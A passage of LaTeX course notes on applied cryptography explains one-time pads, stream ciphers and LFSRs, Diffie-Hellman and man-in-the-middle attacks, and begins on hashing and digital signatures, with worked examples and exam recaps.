Message (ASCII \texttt{59454148}) & \texttt{01011001010001010100000101001000} \\
$\oplus$ OTP key                   & \texttt{01110101000111010100101001001010} \\ \hline
Ciphertext                         & \texttt{00101100010110000000101100000010}
\end{tabular} \\[4pt]
XOR-ing the ciphertext with the same key gives back the message. Encrypting ``YEAH''
twice with \emph{different} keys gives \emph{different} ciphertexts, and ``YEAH'' and
``NOPE'' can produce any ciphertext depending on the key: the ciphertext alone tells
nothing.
\end{exbox}

\begin{defnbox}[title=Perfect secrecy]
For any ciphertext $C$, \textbf{every possible plaintext $M$ is equally likely} as
before seeing $C$: the ciphertext gives the adversary \textbf{zero new information} about
$M$. Formally:
\[
  \forall m, c,\quad \PR\big(M = m \mid E_K(M) = c\big) = \PR(M = m).
\]
\end{defnbox}

\begin{proofbox}[title=The OTP is perfectly secure]
Messages $m$ have some prior probability $\PR(M = m)$ (``Yes'' may be more likely than
``Autobus''), and the key $K$ is uniform on $n$-bit strings, independent of $M$. Since
$E_K(m) = c \iff K = m \oplus c$:
\begin{align*}
  \PR(M = m \mid C = c)
  &= \frac{\PR(M = m \cap K = m \oplus c)}{\PR(C = c)}
   = \frac{\PR(M = m)\,\PR(K = m \oplus c)}{\PR(C = c)} \\
  &= \frac{\PR(M = m)\, 2^{-n}}{2^{-n}}
   = \PR(M = m),
\end{align*}
using independence of $M$ and $K$, and
$\PR(C = c) = \sum_{m'} \PR(M = m')\,\PR(K = m' \oplus c) = 2^{-n}$.
\end{proofbox}

\begin{rembox}[title=Intuition]
For a given ciphertext $c$, \emph{every} message $m$ is possible: there is exactly one key
($k = m \oplus c$) that maps it to $c$, and all keys are equally likely. So even with
infinite computing power, Eve cannot tell which message was sent.
\end{rembox}

\begin{defnbox}[title={One-time: never reuse the key}]
One-time pads are called like this because they must \textbf{not} be reused. If the same
key encrypts two messages:
\[
  C_1 \oplus C_2 = (M_1 \oplus K) \oplus (M_2 \oplus K) = M_1 \oplus M_2 ,
\]
the key cancels out. Eve cannot recover the full messages directly, but she learns
information about the plaintexts, which can feed frequency analysis and help recover
them.
\end{defnbox}

\begin{exbox}[title=Spaces vs.\ letters in ASCII]
In ASCII, spaces start with \texttt{00} and letters with \texttt{01}. In $M_1 \oplus M_2$:
\begin{itemize}
  \item 2 letters: $01 \oplus 01 = 00$;
  \item 2 spaces: $00 \oplus 00 = 00$;
  \item letter $+$ space: $01 \oplus 00 = 01$ $\Rightarrow$ one of the messages has a
        space at this position!
\end{itemize}
\end{exbox}

\begin{exbox}[title={Exercise --- Key reuse}]
Suppose Alice reuses the key $K$ to encrypt \textbf{two single-word English messages of
length 5}, $M_1$ and $M_2$, producing $C_1 = M_1 \oplus K$ and $C_2 = M_2 \oplus K$. \\
\textbf{Task}: show that Eve can ``likely'' recover the key and then the two messages
$M_1$ and $M_2$. (Hint: Eve can look up an English dictionary of all the words of
length 5.)
\end{exbox}

\begin{algbox}[title={Solution --- Key reuse}]
\begin{enumerate}
  \item Eve computes $C_1 \oplus C_2 = M_1 \oplus M_2$: the key disappears.
  \item For every pair of 5-letter English words $(w_1, w_2)$ of the dictionary (a few thousand
        words, so a few million pairs: instant for a computer), she checks whether
        $w_1 \oplus w_2 = C_1 \oplus C_2$.
  \item Random pairs almost never match all 40 bits, so very few pairs (likely one, up to the
        swap $w_1 \leftrightarrow w_2$) survive: they are $M_1, M_2$.
  \item Then $K = C_1 \oplus M_1$, and every other message encrypted with $K$ is readable.
\end{enumerate}
\end{algbox}

\begin{defnbox}[title=The key problem of the OTP]
\textbf{Practical limitation}: OTP requires keys that are \textbf{truly random,
message-length, and used only once}. \\
\textbf{The showstopper}: securely pre-distributing message-length keys for real-world
applications is \textbf{impractical}.
\end{defnbox}

\begin{rembox}[title=Why is it a showstopper?]
To send 1~GB securely you first need to share 1~GB of secret randomness \emph{securely}
--- but if you had a secure way to share 1~GB, you could just send the message that way!
And reusing keys is not an option (see above).
\end{rembox}

\begin{defnbox}[title={OTP: integrity is NOT included (malleability)}]
The OTP guarantees \textbf{confidentiality} (nobody can read it), but it \textbf{does
not} guarantee \textbf{integrity} (nobody can tamper with it).
\end{defnbox}

\begin{exbox}[title=Bit-flipping attack]
Eve flips bits of $C$ with a mask $\Delta$ (e.g.\ only the first bit set):
$C' = C \oplus \Delta$. Bob decrypts
\[
  M' = C' \oplus K = (M \oplus K \oplus \Delta) \oplus K = M \oplus \Delta .
\]
Eve successfully changed the message ($M'$ is $M$ with one bit flipped)
\textbf{without knowing $K$}. If Eve knows the format (e.g.\ ``PAY 0100 CHF''), she can
change the amount in a controlled way.
\end{exbox}

\begin{warnbox}[title={Confidentiality $\neq$ integrity}]
Encryption hides the content; it does \textbf{not} prove that the content was not
modified. Integrity needs separate mechanisms (MACs, signatures --- later in the course).
\end{warnbox}

\begin{goatbox}
The one-time pad hides each bit of the note behind a coin flip that only Alice and Bob know.
Whatever the locked note, \emph{every} message is equally possible: Eve learns nothing, even with
infinite time. The catch: you need as many coin flips as letters, shared in advance and never
used twice (two notes with the same flips cancel the flips out). And Eve can still flip a hidden
bit: the note says ``PAY 0100'' and Bob reads ``PAY 9100'', without Eve reading anything.
\end{goatbox}

\section{Module 4 -- From OTP to stream ciphers}

\begin{defnbox}[title=Symmetric encryption]
Encryption of plaintext and decryption of ciphertext are done using \textbf{the same
key}. Two main types:
\begin{itemize}
  \item \textbf{Block ciphers} --- operate on fixed-size blocks (e.g.\ 128 bits).
        Example: \textbf{AES} (Advanced Encryption Standard).
  \item \textbf{Stream ciphers} --- operate one bit/byte at a time, like a
        \textbf{pseudo-OTP}. Example: \textbf{ChaCha20}.
\end{itemize}
\end{defnbox}

\begin{defnbox}[title=Symmetric cryptographic key]
A \textbf{fixed-size} input to symmetric cryptographic primitives; the size of the key
influences the level of security provided. Key properties:
\begin{itemize}
  \item \textbf{Known to both parties} --- partners must agree on the key
        \textbf{before} starting to use the primitive (requires secure generation and
        sharing protocols).
  \item \textbf{It is reused} --- the key is pre-shared once and then reused (keys do
        have a ``duration'').
  \item \textbf{It must be secret} --- revealing the key eliminates any protection
        provided by the primitive.
\end{itemize}
\end{defnbox}

\begin{rembox}[title=Difference with the OTP]
OTP key: as long as the message, used once. Symmetric key: \textbf{short and fixed}
(e.g.\ 128 or 256 bits) and \textbf{reused} for many messages. The next definitions show
how to get OTP-like encryption from such a short key.
\end{rembox}

\begin{defnbox}[title=Stream cipher (pseudo-OTP)]
A stream cipher attempts to emulate the OTP's security while solving the key-length
problem:
\begin{enumerate}
  \item \textbf{Short key} $K$ --- Alice and Bob share a small, manageable key (kept
        secret).
  \item \textbf{Key Stream Generator (KSG)} --- uses $K$ and an \textbf{Initialization
        Vector (IV)} (which does \textbf{not} need to be secret) to produce an
        arbitrarily long, \emph{pseudo-random} bit stream $S = \mathrm{stream}(K, IV)$.
  \item \textbf{Encryption} --- $C = M \oplus S$.
\end{enumerate}
To \textbf{decrypt}, the receiver feeds the KSG with the shared key and the IV (sent with
the ciphertext) to recreate the same stream $S$, then computes $C \oplus S = M$.
\end{defnbox}

\begin{propbox}[title=Security of the KSG]
We generate potentially \textbf{infinitely long randomness} (the stream $S$) from a
\textbf{finite secret} ($K$). Security depends entirely on $S$ being
\textbf{computationally indistinguishable from a truly random OTP key}: unless one knows
the key, one cannot distinguish the stream from a random string.
\end{propbox}

\begin{rembox}[title=Why does the KSG also take an IV?]
Without an IV, the same key would always produce the \textbf{same stream} $S$, and two
messages would be encrypted with the same ``pad'': XOR-ing the two ciphertexts recovers
$M_1 \oplus M_2$ (the two-time pad above), and Eve could recover the prefix of $S$ and
decode future messages. A fresh IV per message gives a \textbf{different stream for every
message} while reusing the same key.
\end{rembox}

\begin{propbox}[title=Stream ciphers: strengths and weaknesses]
\begin{center}
\begin{tabular}{p{0.32\linewidth}|p{0.58\linewidth}}
\textbf{Speed} (+) & Algorithms are linear in time and constant in space. \\
\textbf{Low error propagation} (+) & Errors in one bit do not affect subsequent
symbols. \\ \hline
\textbf{Low diffusion} ($-$) & A change in one plaintext bit only affects one ciphertext
bit. \\
\textbf{Susceptibility to modification} ($-$) & Low diffusion makes it easier to tamper
with the message (like the OTP).
\end{tabular}
\end{center}
\end{propbox}

\begin{rembox}[title=Diffusion]
\textbf{Diffusion} = how much a small change in the input spreads to the output. Stream
ciphers have none (bit $i$ of $C$ only depends on bit $i$ of $M$), which is exactly why
the bit-flipping attack works on them.
\end{rembox}

\begin{goatbox}
A stream cipher is a machine that, from a short shared secret and a fresh public number (the IV),
spits out an endless line of coin flips that \emph{look} random to anyone without the secret.
Alice and Bob both run the machine and get the same line: a one-time pad from a short key. Change
the IV every message, or the line repeats.
\end{goatbox}

\begin{defnbox}[title=Periodicity of key stream generators]
Key stream generators which have a \textbf{finite state} are eventually
\textbf{periodic}: if the message is longer than the period, the stream
\textbf{repeats}. \\
\textbf{The attack}: if the period is identified and too small, the key stream is known
for the entire message.
\end{defnbox}

\begin{rembox}[title=Why finite state implies periodic]
A KSG with $L$ bits of internal state has at most $2^L$ different states. Each output
step moves deterministically to a next state, so after at most $2^L$ steps a state
repeats, and from then on everything repeats: a repeating stream is a \textbf{reused
pad}.
\end{rembox}

\begin{rembox}[title=Interlude on building KSGs]
The next definitions illustrate design patterns for KSGs and the challenges of building
secure ones; you are not expected to master the underlying math.
\end{rembox}

\begin{defnbox}[title=Linear Feedback Shift Register (LFSR)]
A \textbf{linear recurrence relation}: the next output bit is a linear function (XOR) of
previous bits. It extends an initial random sequence of bits into an arbitrary-length
sequence of (maybe?) random-looking bits. \\
\textbf{Advantage}: uses only \textbf{shift registers} (state storage) and \textbf{XOR
gates} (feedback), so it is extremely fast and efficient in hardware.
\end{defnbox}

\begin{exbox}[title=LFSR example]
Initial state of 4 bits $a_0, \ldots, a_3 = 1, 0, 0, 0$ and $a_n = a_{n-3} \oplus
a_{n-4}$:
\[
  a_4 = a_1 \oplus a_0 = 1,\quad a_5 = a_2 \oplus a_1 = 0,\quad
  a_6 = a_3 \oplus a_2 = 0,\quad a_7 = a_4 \oplus a_3 = 1,\ \ldots
\]
Output: $1, 0, 0, 0, 1, 0, 0, 1, 1, \ldots$
\end{exbox}

\begin{propbox}[title=Randomness of LFSRs]
\begin{itemize}
  \item \textbf{Maximal period} --- if the characteristic polynomial of the recurrence is
        \emph{primitive}, an $L$-bit register reaches the maximum period of
        $2^L - 1$ states before repeating (all non-zero states).
  \item \textbf{Distribution property} --- every non-zero state appears exactly once in
        the cycle, so the output is highly balanced: over one period it contains exactly
        $2^{L-1}$ ones and $2^{L-1} - 1$ zeros.
\end{itemize}
\end{propbox}

\begin{warnbox}[title=LFSR --- math danger]
Despite passing some statistical tests, an LFSR is purely \textbf{linear}. Techniques like
the Berlekamp-Massey algorithm (beyond the scope of the class) recover the entire LFSR
state and key stream from only a \textbf{short segment of the output}, breaking the
cipher. \textbf{LFSRs should not be used directly as key stream generators}, though they
have traditionally been used as a building block of KSGs.
\end{warnbox}

\begin{rembox}[title=Why linearity is fatal]
Linear means ``solvable with linear algebra'': each output bit gives one linear equation
on the unknown initial state. With about $2L$ output bits (easy to get in a KPA), Eve
solves the system and predicts the whole stream. ``Looks random'' (statistics) is not the
same as ``unpredictable'' (security).
\end{rembox}

\begin{exbox}[title={A5/1 and modern stream ciphers}]
\textbf{A5/1}, used historically to secure GSM mobile phone communications, combined
\textbf{multiple LFSRs} in a non-linear way to overcome the linearity flaw while staying
cheap. Despite this, mathematical weaknesses allow breaking it much faster than brute
force: it is practically broken (recall the closed-design failure of GSM, Lecture 2). \\
There are modern stream ciphers with \textbf{no known practical cryptanalysis}, e.g.\
\textbf{Trivium} (based on NLFSRs, 3 shift registers glued with XOR and AND gates) and
\textbf{Salsa20} (using different techniques).
\end{exbox}

\begin{goatbox}
An LFSR is a cheap coin-flip machine made of a row of switches and XORs: fast, balanced, but so
regular that after seeing a short piece of its output you can rebuild the whole machine. Mixing
several (A5/1) was still breakable. Moral: making a good random-looking machine is a job for
experts; use the standard ones.
\end{goatbox}

\begin{keybox}[title=Bit security and consequences]
\begin{itemize}
  \item \textbf{Cost of breaking} --- exploiting a mathematical property or bug can break
        the scheme much faster than $2^{|K|}$ attempts, \textbf{reducing the bit
        security}.
  \item \textbf{The difficulty} --- designing mathematically secure and subtly resistant
        primitives is incredibly hard.
  \item \textbf{Conclusion} --- \textbf{never design your own} stream cipher (block
        cipher, or hash function).
  \item \textbf{Best practice} --- use \textbf{well-vetted, peer-reviewed, standard
        algorithms and their implementations} (AES, ChaCha20, SHA-3).
\end{itemize}
\end{keybox}

\section{Module 5 -- Public-key cryptography}

\begin{defnbox}[title=Key distribution problem]
Symmetric ciphers are fast, but require a \textbf{pre-shared secret key}. How can Alice
and Bob agree on a secret key if \textbf{all their communication is observed by Eve}?
\end{defnbox}

\begin{defnbox}[title=Public-key (asymmetric) cryptography]
\textbf{The paradox}: before the 1970s, it was considered impossible to communicate
securely without a pre-shared secret. \\
\textbf{The revelation}: public-key cryptography allows two parties who have
\textbf{never met} to establish a secure channel.
\end{defnbox}

\begin{defnbox}[title=Diffie-Hellman (DH) key exchange]
Alice, Bob (and Eve) know large \textbf{public parameters}: a prime number $p$ and a
generator $g$.
\begin{itemize}
  \item \textbf{Alice} chooses a \textbf{private} secret $a$, computes the
        \textbf{public value} $A = g^a \bmod p$ and sends $A$ to Bob.
  \item \textbf{Bob} chooses a \textbf{private} secret $b$, computes the
        \textbf{public value} $B = g^b \bmod p$ and sends $B$ to Alice.
\end{itemize}
Both compute the same \textbf{shared secret}:
\[
  K = B^a = (g^b)^a = g^{ab} = (g^a)^b = A^b \pmod p .
\]
Alice computes $B^a$ (she has $a$), Bob computes $A^b$ (he has $b$). Eve sees $A$, $B$,
$g$ and $p$, but cannot find $a$ or $b$ (discrete logarithm problem), so she cannot
compute $K$. (Note: $g^{ab}$ is not computable from the public $g$ alone, one needs $a$ or $b$;
Alice gets it as $B^a$.)
\end{defnbox}

\begin{exbox}[title={Toy example (real $p$ has 2048+ bits)}]
$p = 23$, $g = 5$. Alice picks $a = 4$: $A = 5^4 \bmod 23 = 625 \bmod 23 = 4$. Bob picks
$b = 3$: $B = 5^3 \bmod 23 = 125 \bmod 23 = 10$. \\
Alice: $K = 10^4 \bmod 23 = 18$. Bob: $K = 4^3 \bmod 23 = 64 \bmod 23 = 18$. Same key!
Eve sees $23, 5, 4, 10$ but must find $a$ with $5^a \equiv 4 \pmod{23}$.
\end{exbox}

\begin{rembox}[title=Paint analogy]
Mix a public colour with your secret colour and send the mix; each side adds its own
secret colour to what it receives: both end up with the same final colour. Un-mixing
paint (finding the secret colour) is hard, like the discrete logarithm.
\end{rembox}

\begin{defnbox}[title=Trapdoor functions]
DH is one of many ways to use public-key cryptography to establish a shared secret (a
shared key) to then do symmetric cryptography. They boil down to mathematical functions
that are \textbf{easy to compute in one direction} but \textbf{hard (high complexity) to
compute in the other direction}.
\end{defnbox}

\begin{defnbox}[title=Discrete Logarithm Problem (DLP)]
Underlying difficulty of DH: computing $g^a \bmod p$ is cheap (fast modular
exponentiation), but there is \textbf{no known fast (polynomial) algorithm} to recover
$a$ from $A = g^a \bmod p$ (and $g$, $p$).
\end{defnbox}

\begin{rembox}[title=Beyond DH]
Other ways to set a shared secret (or even to directly communicate), all involving
interesting mathematics:
\begin{itemize}
  \item \textbf{RSA} --- based on the \textbf{factoring} problem.
  \item \textbf{Elliptic Curve Cryptography (ECC)} --- the discrete logarithm problem on
        elliptic curves instead of modulo $p$ (smaller keys for the same security).
  \item \textbf{Post-quantum cryptography} --- new primitives (like \textbf{lattice
        crypto}) to resist quantum computers.
\end{itemize}
\end{rembox}

\begin{defnbox}[title=Man-In-The-Middle (MITM) attack]
Vanilla DH is vulnerable to an \textbf{active} attack: DH only guarantees key
\emph{agreement}, not \emph{authenticity} (verifying \emph{who} you are agreeing with).
\begin{enumerate}
  \item Eve intercepts $A$ from Alice and $B$ from Bob.
  \item Eve sends her own value $E_B$ to Alice: Alice computes $K_{AE}$.
  \item Eve sends her own value $E_A$ to Bob: Bob computes $K_{BE}$.
\end{enumerate}
Eve shares a key $K_{AE}$ with Alice and a separate key $K_{BE}$ with Bob: she can
\textbf{read, modify, and relay} all communication.
\end{defnbox}

\begin{rembox}[title=Why it works]
Alice believes $E_B$ comes from Bob, but nothing in the protocol proves it. Each side
does a perfectly correct DH --- just with Eve. DH is secure against a \emph{passive}
eavesdropper, not against an \emph{active} attacker (Module 2).
\end{rembox}

\begin{defnbox}[title=Identity verification problem]
DH solves \textbf{key distribution}, but creates the \textbf{identity verification
problem}.
\begin{itemize}
  \item \textbf{Solution}: DH must be paired with a mechanism (like \textbf{digital
        signatures}) to verify identity (next week, Lecture 6).
  \item \textbf{Setup}: parties still need to trust a third party (a
        \textbf{Certificate Authority}) for public key ownership.
\end{itemize}
\end{defnbox}

\begin{goatbox}
Diffie-Hellman: Alice and Bob each mix a public colour with a secret colour and shout the mix.
Each adds their own secret colour to what they heard: both get the same final colour, which Eve,
who only heard the mixes, cannot make (un-mixing paint is too hard). But if Eve stands in the
middle and mixes with each of them separately, both think they talk to each other and both talk
to Eve: DH tells you that you share a secret, not \emph{with whom}.
\end{goatbox}

\begin{keybox}[title=Summary]
\begin{itemize}
  \item Encryption $C = E_K(M)$ must be \textbf{invertible with the key} and \textbf{hard
        to invert without it}; ideally the best attack is brute force.
  \item A big key space is not enough: \textbf{frequency analysis} breaks Caesar and
        substitution ciphers. Security is measured in \textbf{bits of security}.
  \item Adversary models: \textbf{passive} $<$ \textbf{KPA} $<$ \textbf{CPA}, plus
        \textbf{side channels} on implementations.
  \item The \textbf{one-time pad} is \textbf{perfectly secret} but needs a random,
        message-length, single-use key, and is \textbf{malleable} (no integrity).
  \item \textbf{Stream ciphers} expand a short key + IV into a pseudo-random stream;
        never reuse a stream, never use plain LFSRs, \textbf{never design your own
        crypto}.
  \item \textbf{Diffie-Hellman} solves key distribution thanks to the \textbf{discrete
        logarithm problem}, but needs \textbf{authentication} against MITM.
\end{itemize}
\end{keybox}

\begin{recapbox}[title={Exam-ready recap --- Lecture 5: Applied cryptography}]
\textbf{Goal}: confidentiality over an insecure channel (data at rest: Alice = Bob).
$C = E_K(M)$, $M = D_K(C)$: \textbf{invertible with the key}, \textbf{hard to invert without}
(best attack should be brute force over the key space).
\begin{itemize}
  \item \textbf{Caesar} (25 keys, 4.6 bits) and \textbf{substitution} ($26! \approx 2^{88}$ keys)
        are broken by \textbf{frequency analysis}: they keep the statistics of the language. Big
        key space: necessary, not sufficient. \textbf{Bits of security} = $\log_2$(work of the
        best attack); broken = faster than brute force (e.g.\ 1024-bit key in $2^{40}$).
  \item \textbf{Adversaries}: passive (ciphertext only) $<$ \textbf{KPA} (known pairs: headers,
        guesses) $<$ \textbf{CPA} (encryption oracle: one query \texttt{abc\ldots z} gives the whole
        substitution key) ; \textbf{side channels} (timing, power: you own a device with someone
        else's key, DRM).
  \item \textbf{One-time pad}: $C = M \oplus K$, $K$ random, as long as $M$, used once
        $\Rightarrow$ \textbf{perfect secrecy} $\PR(M=m \mid C=c) = \PR(M=m)$. Key reuse:
        $C_1 \oplus C_2 = M_1 \oplus M_2$ (dictionary attack, spaces 00 vs letters 01).
        Impractical key distribution. \textbf{Malleable}: $C \oplus \Delta$ decrypts to $M \oplus
        \Delta$ $\Rightarrow$ confidentiality $\neq$ integrity.
  \item \textbf{Symmetric} = same key, short and reused: \textbf{block} (AES) or \textbf{stream}
        (ChaCha20). \textbf{Stream cipher}: $C = M \oplus \mathrm{stream}(K, IV)$, IV public and
        fresh (else two-time pad); secure iff the stream is indistinguishable from random. Fast,
        no error propagation; no diffusion, malleable; finite state $\Rightarrow$ periodic.
  \item \textbf{LFSR}: linear, fast in hardware, period $2^L-1$ if primitive, balanced, but
        Berlekamp-Massey rebuilds it from a short output: never alone. A5/1 (GSM) broken; Trivium,
        Salsa20 OK. \textbf{Never design your own crypto.}
  \item \textbf{Diffie-Hellman}: public $p, g$; $A = g^a$, $B = g^b$; $K = B^a = A^b = g^{ab} \bmod
        p$. Security: \textbf{discrete logarithm} (trapdoor-like one-way function). Others: RSA
        (factoring), ECC, post-quantum (lattices). Vulnerable to \textbf{MITM} (active Eve):
        agreement $\neq$ authenticity $\Rightarrow$ signatures + certificate authorities.
\end{itemize}
\textbf{How it builds on what came before}: cryptography is a new family of \emph{mechanisms}
(Lecture 1) for confidentiality, and each topic is an earlier idea in new clothes: the adversary
models are \textbf{threat models} (security is relative to Eve's power); ``the key is the only
secret'' is \textbf{open design} (Kerckhoffs, Lecture 2; GSM's A5/1 again); ``use vetted
standards'' is \textbf{economy of mechanism}; side channels and key reuse are \textbf{covert
channels} / shared mechanisms (Lecture 4); malleability shows that confidentiality does not give
\textbf{integrity}, the BIBA concern, solved in Lecture 6. The MITM shows that key distribution
needs \textbf{authenticity}: the starting point of Lecture 6.
\end{recapbox}

% =========================================================
\chapter{Lecture 6 : Applied cryptography II}
% =========================================================

\begin{rembox}[title=In a nutshell]
\textbf{What is this lecture about?} Lecture 5 only hid messages (confidentiality). Here we
fix the two holes it left: \textbf{authenticity} (am I really talking to Bob, and not to
Eve in the middle?) and \textbf{integrity} (was the message changed on the way?). With
public keys we get \textbf{public-key encryption} and \textbf{digital signatures}, made
fast thanks to \textbf{hash functions}; with a shared secret key we get \textbf{block
ciphers} and their \textbf{modes of operation} (ECB, CBC, CTR) and \textbf{MACs}. Finally
we combine encryption and MAC correctly (\textbf{Encrypt-then-MAC}). \\
\textbf{Why is it useful?} Every real secure channel (HTTPS, messaging apps, software
updates) needs all three properties at once. Knowing which tool gives which guarantee
--- and which naive combinations leak or can be tampered with --- is what lets you
choose the right standard primitive instead of building a broken one.
\end{rembox}

\section{Recap: where we stand}

\begin{rembox}[title=Recap of Lecture 5]
\begin{itemize}
  \item \textbf{Confidentiality}: information cannot be accessed by unauthorized
        parties. Eve observes the ciphertext $C = E_K(M)$, but is assumed \textbf{not to
        see inside} Alice's and Bob's devices (no access to $K$ or $M$).
  \item \textbf{Symmetric encryption}: encryption and decryption use the \textbf{same
        pre-shared secret key} $K$.
  \item \textbf{Diffie-Hellman}: with public $p, g$, Bob sends $B = g^b \bmod p$, Alice
        sends $A = g^a \bmod p$; both compute $K = g^{ab} \bmod p$, which Eve cannot
        compute (discrete logarithm).
\end{itemize}
\textbf{Open question}: how do Alice and Bob know they are talking to the right person,
and not to Eve in the middle (MITM)?
\end{rembox}

\begin{warnbox}[title=The assumption behind all of it]
Secrecy relies on the assumption that the adversary \textbf{cannot access the secret key}: Eve
sees the wire, not the inside of Alice's and Bob's devices. (Side channels, Lecture 5, are what
happens when this assumption breaks.)
\end{warnbox}

\section{Problem I: Authenticity}

\begin{defnbox}[title=Authenticity]
How do we \textbf{verify the identity} of the person to whom we are talking, while
avoiding Eve in the middle? Bob wants to talk to Alice; Alice wants to make sure she is
talking to Bob.
\end{defnbox}

\begin{defnbox}[title=Public-key cryptography: key pairs and PKI]
Each user has a \textbf{key pair}:
\begin{itemize}
  \item a \textbf{secret key} $SK$ (kept private), e.g.\ Bob's $SK = b$;
  \item a \textbf{public key} $PK$ (published), e.g.\ Bob's $PK = B = g^b$.
\end{itemize}
Public keys are published in a \textbf{Public Key Infrastructure (PKI)}, from which
anyone can fetch the public key of the person they want to talk to (the slides omit the
$\bmod p$ for simplicity). Public-key cryptography is also called \textbf{asymmetric}
cryptography: the two keys differ.
\end{defnbox}

\begin{rembox}[title=Link with Diffie-Hellman]
A DH public value $B = g^b$ \emph{is} a public key, and $b$ the secret key. The PKI
(e.g.\ Certificate Authorities, Lecture 5) is what binds a public key to an
\textbf{identity}: it answers ``is this really Alice's key?''.
\end{rembox}

\begin{defnbox}[title=Public-key encryption (confidentiality)]
To send a confidential message to Alice, Bob fetches Alice's \textbf{public key} from the
PKI and encrypts:
\[
  C = E_{PK_{\text{Alice}}}(M), \qquad M = D_{SK_{\text{Alice}}}(C).
\]
Bob finds Alice's public key in the repository, encrypts with it and sends the ciphertext.
Only Alice, who holds $SK_{\text{Alice}}$, can decrypt. Eve also knows $PK$, but trying to
decrypt with the public key gives garbage: this is what gives confidentiality. Example: \textbf{RSA-OAEP}.
\textbf{Don't design your own!}
\end{defnbox}

\begin{rembox}[title=Intuition: the padlock]
The public key is an \textbf{open padlock} that Alice hands out to everybody; the secret
key is the only key that opens it. Anyone can lock a box for Alice, only Alice can open
it.
\end{rembox}

\begin{defnbox}[title=Digital signatures (signing and verification)]
Bob \textbf{signs} with his \textbf{secret} key, Alice \textbf{verifies} with Bob's
\textbf{public} key (from the PKI):
\[
  S = \mathrm{Sign}_{SK_{\text{Bob}}}(M), \qquad
  V_{PK_{\text{Bob}}}(M, S) = \checkmark .
\]
\textbf{Unforgeability}: Eve cannot forge a signature $S$ on $M$ that verifies without
knowing $SK$. Example: \textbf{NIST DSA}. \textbf{Don't design your own!} \\
Verification returns yes if the signature is valid, no otherwise. Since only Bob knows $SK$, only
Bob could have produced a valid signature: Alice knows she is talking to Bob.
\end{defnbox}

\begin{rembox}[title=Encryption vs.\ signature: who uses which key?]
\begin{center}
\begin{tabular}{l|c|c}
                   & \textbf{uses $PK$} & \textbf{uses $SK$} \\ \hline
Encryption         & sender encrypts    & receiver decrypts  \\
Signature          & receiver verifies  & sender signs
\end{tabular}
\end{center}
Encryption: \emph{anyone} can write to Alice, only Alice can read. Signature: only Bob can
write (sign), \emph{anyone} can check it was Bob.
\end{rembox}

\begin{goatbox}
Each goat has two things: an open padlock it hands out to everybody (public key) and the only key
that opens it (secret key). To send Alice a secret, lock it with Alice's padlock: only Alice opens
it. Signing is the reverse: Bob presses a seal only he owns on the letter, and everybody can
compare the mark with Bob's public pattern. A farm notice board (the PKI) tells which padlock and
which seal belong to which goat.
\end{goatbox}

\begin{propbox}[title=Sign the hash of messages]
Public-key operations are \textbf{computationally costly} compared with most symmetric
key algorithms of equivalent security: signing and encrypting \textbf{is slow}. \\
$\Rightarrow$ \textbf{Sign the hash} of messages instead of the message itself:
\[
  H = h(M), \qquad S = \mathrm{Sign}_{SK}(H), \qquad V_{PK}(H, S) = \checkmark ,
\]
where Alice recomputes $H = h(M)$ from the received $M$.
\end{propbox}

\begin{defnbox}[title=Hash function]
A function $h(\cdot)$ that maps a message $M$ of \textbf{any length} to a \textbf{fixed
short-length} output $H = h(M)$. It is \textbf{unkeyed}, \textbf{deterministic} (the same $M$
always gives the same $H$) and \textbf{fast}. Three security properties:
\begin{itemize}
  \item \textbf{Pre-image resistance} --- given $H = h(M)$, it is difficult to find $M$.
  \item \textbf{Second pre-image resistance} --- given $M$, it is difficult to find an
        $M' \neq M$ such that $h(M') = h(M)$.
  \item \textbf{Collision resistance} --- it is difficult to find \emph{any} $M, M'$
        (with $M \neq M'$) such that $h(M) = h(M')$.
\end{itemize}
\end{defnbox}

\begin{rembox}[title=Understanding the three properties]
\begin{itemize}
  \item \textbf{Pre-image}: the hash is a one-way ``fingerprint'': from the fingerprint
        you cannot rebuild the person.
  \item \textbf{Second pre-image}: the attacker is given a \emph{fixed} $M$ and must
        match its hash.
  \item \textbf{Collision}: the attacker chooses \emph{both} messages freely --- an easier
        task, so collision resistance is the strongest requirement. By the birthday
        paradox, an $n$-bit hash only gives about $n/2$ bits of collision resistance.
\end{itemize}
Collisions must exist (infinitely many inputs, finitely many outputs); they must just be
\textbf{hard to find}.
\end{rembox}

\begin{propbox}[title=Standard hash functions]
\begin{itemize}
  \item \textbf{MD5} (1991): 128-bit hash --- \textbf{insecure}.
  \item \textbf{SHA-0, SHA-1}: 160 bits --- \textbf{insecure}.
  \item \textbf{SHA-2} (224/256/384/512) --- OK but slow.
  \item \textbf{SHA-3} (224/256/384/512).
\end{itemize}
\textbf{Don't design your own!} \\
\textbf{Uses}: support digital signatures, build HMAC, password storage, file integrity,
secure commitments, secure logging, blockchains, \ldots
\end{propbox}

\begin{algbox}[title={Signing a hash, step by step}]
\textbf{Bob}: (1) hashes the message, $H = h(M)$; (2) signs the hash, $S = \mathrm{Sign}_{SK}(H)$;
(3) sends $M$ and $S$. \\
\textbf{Alice}: (1) recomputes $h(M)$ from the received $M$ (deterministic: she gets the same $H$
as Bob); (2) verifies $V_{PK}(h(M), S)$.
\end{algbox}

\begin{goatbox}
A hash is a fingerprint of a text: any text, however long, gets a short fingerprint; the same text
always gets the same one; you cannot rebuild the text from it; and nobody can find two different
texts with the same fingerprint. Signing a whole book is slow, so Bob signs its fingerprint. That
is only as good as the fingerprint: if Eve could find another book with the same fingerprint,
Bob's signature would also ``sign'' Eve's book.
\end{goatbox}

\begin{propbox}[title=Which hash properties do signatures need?]
When signing $h(M)$, \textbf{pre-image resistance is not needed} ($M$ is sent anyway).
What matters:
\begin{itemize}
  \item \textbf{Second pre-image resistance} --- otherwise Eve finds $M' \neq M$ with
        $h(M') = h(M)$, and Bob's signature on $M$ is also valid on $M'$.
  \item \textbf{Collision resistance} --- otherwise Eve prepares two messages with the same
        hash, gets Bob to sign the harmless one, and reuses the signature on the other.
\end{itemize}
\end{propbox}

\begin{defnbox}[title={All together: asymmetric confidentiality and authentication}]
Users have \textbf{two pairs} of keys (2 secret keys, 2 public keys): an
\textbf{encryption} pair and a \textbf{signing} pair.
\begin{itemize}
  \item \textbf{Confidentiality}: $D_{SK}(C) = M$ with $C = E_{PK}(M)$.
  \item \textbf{Authentication}: $V_{PK}(M, S) = \checkmark$ with
        $S = \mathrm{Sign}_{SK}(M)$.
\end{itemize}
Bob sends to Alice
\[
  E_{PK_{\text{Alice}}}(M), \quad \mathrm{Sign}_{SK_{\text{Bob}}}\big(h(M)\big),
\]
encrypting with Alice's \textbf{encryption public key} and signing with his own
\textbf{signing secret key}; Alice decrypts with her secret key and verifies with Bob's
